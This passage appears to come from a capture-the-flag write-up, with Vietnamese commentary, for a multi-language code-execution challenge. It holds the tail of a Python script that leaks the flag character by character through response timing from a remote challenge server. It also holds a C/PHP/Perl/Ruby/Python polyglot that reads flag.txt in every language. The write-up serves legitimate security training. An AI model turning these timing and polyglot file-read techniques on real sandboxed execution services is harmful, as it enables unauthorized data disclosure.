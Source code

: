 ```py
"""
        s = remote("94.237.63.93", 38070)

        s.recvuntil(b'Enter the program of many languages: ')
        start = time.time()
        s.sendline(b64encode(code.encode()))
        s.recvuntil(b'[+] Completed. Checking output')
        end = time.time()

        flag += chr(int((end - start)* 10) - 2)
        print(flag)

        s.close()

        if flag[-1] == "}":
            break

if __name__ == "__main__":
    main()

```


> Another way: Ngôn ngữ của chúa


```py
#include/*
#<?php eval('echo file_get_contents("flag.txt", true);')?>
q="""*/<stdio.h>
int main() {char s[500];fgets(s, 500, fopen((const char[]){'f','l','a','g','.','t','x','t','\x00'}, (const char[]){'r', '\x00'})); {puts(s);}if(1);
	else	{}} /*=;
open(my $file, 'flag.txt');print(<$file>)#";print(puts File.read('flag.txt'));#""";print(open('flag.txt').read())#*/
```

Nếu bạn đã quá mệt mỏi vì mấy bài brute force 2 ^ 32 thì có thể sử dụng cách này (copy code trên mạng)
